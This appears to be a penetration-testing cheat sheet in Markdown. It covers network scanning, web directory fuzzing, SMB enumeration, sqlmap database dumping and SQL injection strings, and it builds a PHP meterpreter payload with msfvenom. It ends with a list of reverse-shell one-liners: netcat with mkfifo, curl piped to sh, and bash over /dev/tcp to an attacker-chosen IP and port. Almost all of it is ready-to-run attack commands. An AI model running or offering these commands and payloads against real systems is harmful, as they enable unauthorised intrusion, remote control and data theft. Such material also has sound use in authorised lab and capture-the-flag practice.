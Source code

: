 # Basic Enumeration

#### NMAP check for live hosts
- `sudo nmap -sn 10.0.0.0/24 -oN discovery.nmap`

#### sort
- `cat discovery.nmap | grep "for" | cut -d " " -f 5 > ips.txt` 

#### NMAP scan
- `sudo nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open`

#### NMAP Scan
- `sudo nmap -sC -sV -oA testbox 10.0.0.1`

####Other type scans
- `nc -nv -u -z -w 1 192.168.1.44 1300-1500`

### Web Directory Enumeration
#### gobuster
- `gobuster dir -u http://10.0.0.1 -w /usr/share/wordlists/dirb/big.txt`

#### wfuzz
######  directory    
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hc 404 -u 10.0.0.1/FUZZ`  
###### filename + extension  
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/extensions_common.txt --hc 404 -u 10.0.0.1/FUZZ%FUZ2Z`  
###### deeper enumeration  
- `wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/big.txt -z file,/usr/share/wordlists/dirb/extensions_common.txt --hc 404 -u 10.0.0.1/FUZZ/FU2Z%FUZ3Z`

### SMB Enumeration

- `enum4linux -a 10.0.0.1`
- `smbclient -U "user" -L 10.0.0.1`
- `showmount -e 10.0.0.1`
- `sudo mount -t cifs //10.0.0.1/share$ smb/ -o user="user"`
- `smbclient \\\\10.0.0.1\\sharename -U guest`

### LDAP Enumeration

- `jxplorer`

### SQLMAP 
- if there is a parameter then one could use sqlmap
- e.g http://10.0.0.1/?id=2
- use burp to get the request page and save it as req.txt
- then run
- `sqlmap -r req.txt --tamper=space2comment --dump-all --dbms mysql`

- try `' or 1=1--` in the username and password field
- enumerate how many columns there are
- `user='UNION SELECT NULL,'test',NULL,NULL--&password=admin`

### msfvenom and msfconsole reverse shell

- `msfvenom -p php/meterpreter_reverse_tcp lhost=10.0.0.1 lport=9998 -o moon.php`

###### msfconsole
- `use exploit/multi/handler`
- `set payload php/meterpreter_reverse_tcp`
- `set LHOST 10.0.0.1`
- `set LPORT  9998`
- `run``

###### Reverse shells

- `mkfifo /tmp/boop;nc IP PORT 0</tmp/boop | /bin/sh -i 2>&1 | tee /tmp/boop`
- `curl http://IP:port/shell.sh | sh`
- `exec("/bin/bash -c 'bash -i > /dev/tcp/IP/PORT 0>&1'");`
- `/bin/bash -c 'bash -i > /dev/tcp/IP/PORT 0>&1'`

- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
